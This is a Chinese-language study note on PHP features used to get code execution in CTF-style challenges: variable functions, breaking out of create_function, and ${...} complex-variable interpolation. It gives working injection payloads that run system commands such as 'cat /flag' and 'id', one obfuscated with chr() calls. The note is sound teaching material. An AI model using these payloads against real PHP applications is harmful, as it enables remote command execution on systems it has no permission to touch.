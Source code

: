## 特征

```
在PHP中，除了1. 变量名、2. 自定义常量名、3. php.ini中的配置项

其余都是对大小写不敏感
```

## 可变函数

- php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数
- 例如：`$function = "sayHello";$function();`

选择assert而不是eval的原因，eval并不支持动态执行，所以用system也可以，但低版本php不优先考虑

[PHP: 可变函数 - Manual](https://www.php.net/manual/zh/functions.variable-functions.php)

## 匿名函数

`create_function()` 函数是 PHP 中的一个函数，用于在运行时创建一个匿名函数，是可变函数

```
$addFunction = create_function('$a, $b', 'return $a + $b;');

实际上函数是
function ($a, $b){
    return $a + $b;
}

此时我们可以通过闭合掉第一个大括号{，并注释掉之后的最后的}，来实现命令执行，此时payload为b=}system(%27cat%20/flag%27);/*
```

PHP 7.2.0 版本中已经被弃用，并在 PHP 7.4.0 版本中移除

## 复杂变量

`${phpinfo()}` ：在 php 中，可以接受函数的返回值作为变量名，而`phpinfo()`的返回值为`TRUE`，将返回值返回作为了变量名，但是也将`phpinfo()`执行了，

```
echo "123${phpinfo()}";将会返回phpinfo

echo "This is {$great}";输出： This is fantastic

echo "2${phpinfo("123")}";

echo "${`id`}"//开启notice，不用echo也行

${(system)(id)}

${system(chr(99).chr(97).chr(116).chr(32).chr(47).chr(102).chr(108).chr(97).chr(103))}
```

## 数组溢出
